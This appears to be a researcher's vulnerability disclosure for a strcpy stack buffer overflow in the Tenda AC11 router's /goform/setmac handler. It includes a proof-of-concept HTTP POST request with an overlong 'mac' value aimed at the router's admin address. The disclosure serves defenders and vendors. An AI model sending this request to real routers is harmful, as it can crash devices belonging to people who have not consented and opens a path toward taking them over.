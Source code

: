 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setmac` page which influence the lastest version of this router OS. (this is a RTOS that are different from linux system)
The Version is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
In the function sub_800CF7DC (page `/gofrom/setmac`) have one stack buffer overflow vulnerability.

1. It isn't limit our input when we input `mac` in `input`.
2. Then if the `input` is different from the nvram in `trust list`, `input` will copy to a stack value `v14` by using `strcpy(v14, input);`.strcpy couldn't limit copy length ,so wo can make stack buffer overflow in `v14`
![](./1.png)

## poc 

```
POST /goform/setmac HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&mac=1C-1B-B5-F5-3E-3Fabcd&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## Acknowledgment 

Credit to [@Yu3H0](https://github.com/Yu3H0/),[@peanuts](https://github.com/peanuts62), [@leonW7](https://github.com/leonW7) from Shanghai Jiao Tong University.
